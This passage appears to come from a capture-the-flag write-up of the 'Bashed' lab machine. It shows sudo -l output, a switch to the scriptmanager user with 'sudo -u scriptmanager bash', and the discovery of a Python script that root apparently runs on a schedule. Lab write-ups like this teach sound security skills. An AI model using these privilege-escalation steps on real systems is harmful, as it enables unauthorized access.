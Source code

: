 ```
www-data@bashed:/var/www/html/dev$ sudo -l    
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can see that the user `scriptmanager` can run any command with no password. This is great to see. We can utilize `sudo -u` which specifies the user you want to run sudo as so we can specify it to run as `scriptmanager` and do something simple like open up a `bash shell` after it by just typing `bash`. So the whole command will look like the following:

```
sudo -u scriptmanager bash
```

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ whoami && id
scriptmanager
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/var/www/html/dev$ 
```

And now we are the user `scriptmanager`. 

I started looking around manually to see if there is anything interesting on this box and within the root directory (`/`) I see that there is an odd directory named `scripts` which is owned by the user and group `scriptmanager`. This is pretty strange as there is usually never something like this within the root directory of the file system. I go ahead and `cd` into the directory and see the following files:

```
criptmanager@bashed:/$ cd scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 15 23:07 test.txt
```

I go ahead and `cat` the `test.py` file to see the contents of the file.

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Looks like it is just a Python script that is opening a file `test.txt`, writing to it, and writing `testing 123!` into it and then closing. That `test.txt` file is within this same directory and is also owned as the root user and group which is interesting. To me, this must mean that the root user is running this `test.py` file. Something else that is even more interesting is that this file seems to be updating every minute or so.
